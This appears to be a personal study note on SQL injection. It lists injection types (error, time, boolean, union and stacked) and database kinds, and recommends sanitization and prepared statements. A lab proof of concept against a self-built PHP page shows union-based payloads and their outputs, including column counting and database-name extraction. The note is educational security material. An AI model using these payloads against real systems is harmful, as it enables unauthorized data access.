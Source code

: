 There are multiple types of SQLi:

- Error based SQLi: This type of SQLi makes use of error in the SQL code to obtain information.
- Time based SQLi: This type of SQLi makes use of a query that takes too much time to execute.
- Boolean based SQLi: This type uses boolean expresion queries. TRUE or FALSE.
- Union based SQLi: This type of SQLi makes use of the UNION clause to combine one or more queries in to one.
- Stacked Queries based SQLi: This type of SQLi lays on the posibilty of executing multiple queries at once.

It is worth to mention that this are some of the SQLi that exists but not the only ones.

  

In addition, is worth to mention the different DB types:

- Relational Databases
- NoSQL Databases
- Graphs Databases
- Object Databases

  

It is important to understand the different types of SQLi and how the actors can obtain confidential information and gain control of the DB. The developers must assure to validate and sanitize every input of an application. There must be defensive techniques as sanitization and prepared SQL queries to prevent SQLi.

---

- PoC
    
    For the PoC, a database was mounted and a PHP script for fetching users for the webpage.
    
    ![[Untitled 45.png]]
    
    As seen, this is not sanitized, since whatever param given to $id is directed to the SQL query
    
      
    
    Once we see that is vulnerable we need to start to test info.
    
    Then we need to use union to operate within the columns
    
    ![[Untitled 46.png]]
    
    ```SQL
    searchUsers.php?id=1
    admin
    
    searchUsers.php?id=1' order by 100,10,1-- - HERE WE NEED TO KNOW HOW MANY COLUMNS THERE ARE
    admin
    
    searchUsers.php?id=1' union select 1-- -
    admin
    
    searchUsers.php?id=112414231' union select 1-- -
    1
    
    searchUsers.php?id=41231231' union database()-- -
    dbName
    